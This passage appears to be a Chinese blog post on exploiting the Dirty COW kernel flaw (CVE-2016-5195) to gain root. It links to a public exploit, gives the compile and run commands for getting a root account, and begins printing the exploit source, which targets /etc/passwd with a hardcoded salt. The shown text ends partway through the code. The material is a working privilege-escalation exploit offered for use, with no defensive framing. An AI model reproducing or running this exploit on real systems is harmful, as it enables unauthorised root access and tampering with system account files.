 ![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221111170416721-212023339.png)

 可以在这个网站复制源码进行编译：https://github.com/FireFart/dirtycow/blob/master/dirty.c获得可利用的exp获得root权限账户，编译命令：gcc -pthread zangniu.c -o zangniu  -lcrypt，执行命令：./zangniu root。

![](https://img2022.cnblogs.com/blog/2834847/202211/2834847-20221111173121258-587212848.png)

CVE-2016-5195脏牛漏洞利用代码

     #include <fcntl.h>
    #include <pthread.h>
    #include <string.h>
    #include <stdio.h>
    #include <stdint.h>
    #include <sys/mman.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <sys/wait.h>
    #include <sys/ptrace.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <crypt.h>
    
    const char *filename = "/etc/passwd";
    const char *backup_filename = "/tmp/passwd.bak";
    const char *salt = "firefart";
    
    int f;
    void *map;
    pid_t pid;
    pthread_t pth;
    struct stat st;
    
    struct Userinfo {
       char *username;
       char *hash;
       int user_id;
       int group_id;
       char *info;
       char *home_dir;
       char *shell;
    };
    
    char *generate_password_hash(char *plaintext_pw) {
      return crypt(plaintext_pw, salt);
    }
    
    char *generate_passwd_line(struct Userinfo u) {
      const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
      int size = snprintf(NULL, 0, format, u.username, u.hash,
        u.user_id, u.group_id, u.info, u.home_dir, u.shell);
      char *ret = malloc(size + 1);
      sprintf(ret, format, u.username, u.hash, u.user_id,
        u.group_id, u.info, u.home_dir, u.shell);
      return ret;
    }
    
